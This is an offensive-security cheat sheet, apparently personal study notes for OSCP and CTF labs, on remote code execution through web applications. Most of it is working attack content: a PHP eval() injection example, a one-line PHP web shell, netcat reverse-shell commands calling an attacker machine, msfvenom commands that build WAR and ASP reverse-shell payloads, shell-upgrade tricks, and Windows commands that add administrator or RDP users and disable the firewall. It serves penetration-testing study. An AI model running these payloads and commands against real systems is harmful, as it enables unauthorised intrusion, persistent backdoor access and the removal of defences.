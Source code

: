 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to an attacker executing commands on a system from a remote machine. Often this means exploiting a web application/server to run commands for the underlying operating system.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells

For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

### Listeners

Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port.

#### Netcat listener

Using ports 80 or 443 will help you get around egress filtering:

```text
nc -lvp 443
```

#### Meterpreter listener

You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:

```text
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

### Simple PHP web shell

Assuming you are able to put a file on the web server or edit an existing one \(e.g. CMS template\) this is the simplest type of shell:

```text
<?php echo shell_exec($_GET['cmd']); ?>
```

You can use it for system commands:

```text
http://[host]/wordpress/index.php?cmd=id
```

You can also use it to create a reverse shell:

```text
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```

### PHP shell

This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:

```text
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```

### Perl shell

I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay.

As with the PHP shell, change the following variables:

```text
my $ip = '127.0.0.1';
my $port = 1234;
```

### WAR shell

If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL \(e.g. `http://[host]/shell/`\)

### ASP shell

Meterpreter is good for catching Windows shells, but it's good to practice doing them manually \(e.g. because OSCP restricts Metasploit use\). You can use `msfvenom` to generate a non-staged payload that can be caught by a netcat listener:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

A non-staged payload is sent in one hit, which is why it can be caught by a netcat listener. A staged payload is sent in small pieces, which is why Metasploit needs to be used.

To create a staged payload and catch the shell using Metasploit's `/exploit/multi/handler`:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

Apparently `/exploit/multi/handler` is allowed on the OSCP exam, but this isn't much of an advantage if you can't use Meterpreter or Metasploit's local exploits. But if you don't have a lot of space for the payload, staging it is an option.

## Upgrading shell

You will use this line pretty often to fix your shells:

```text
python -c 'import pty; pty.spawn("/bin/bash");'
```

To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:

```text
stty raw -echo
fg
```

Then type `reset` and hit `Enter`for a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:

```text
stty size
```

This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:

```text
stty -rows 48 -columns 120
```

## Windows

Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```

You can also attempt to download `nc.exe`, then run:

```text
nc.exe -e cmd.exe [attack machine] [port]
```

If RDP is enabled \(port 3389\), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:

```text
net user $username $password /add
```

Add a user to the “Remote Desktop Users” group:

```text
net localgroup "Remote Desktop Users" $username /add
```

Make a user an administrator:

```text
net localgroup administrators $username /add
```

Disable Windows firewall on newer versions:

```text
NetSh Advfirewall set allprofiles state off
```

Disable windows firewall on older windows:

```text
netsh firewall set opmode disable
```

## Further reading

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
* [A guide to hacking without Metasploit](https://medium.com/@hakluke/haklukes-guide-to-hacking-without-metasploit-1bbbe3d14f90)

